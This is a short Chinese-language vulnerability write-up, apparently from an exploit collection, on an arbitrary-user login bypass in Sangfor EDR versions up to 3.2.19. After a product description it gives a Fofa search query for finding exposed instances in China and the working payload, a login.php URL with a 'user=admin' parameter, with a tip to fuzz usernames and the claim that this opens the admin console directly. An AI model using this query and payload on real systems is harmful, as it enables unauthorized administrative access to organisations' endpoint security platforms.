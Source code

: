 # 深信服 EDR 任意用户登录


漏洞名称: 某信服 EDR 任意用户登录漏洞
影响范围: EDR  <= v3.2.19
漏洞描述:
终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。

攻击者可以通过构造payload绕过登录判断，直接拿到系统管理员/用户权限。

Fofa：

```
title="终端检测响应平台" && country="CN"
```

```
payload： 
https://127.0.0.1:443/ui/login.php?user=username
//username可以去fuzz一波
```


```
https://XX.XX.XX.XX:443/ui/login.php?user=admin
```

直接访问可成功登录管理界面：

![](media/202008/15979368153405.jpg)


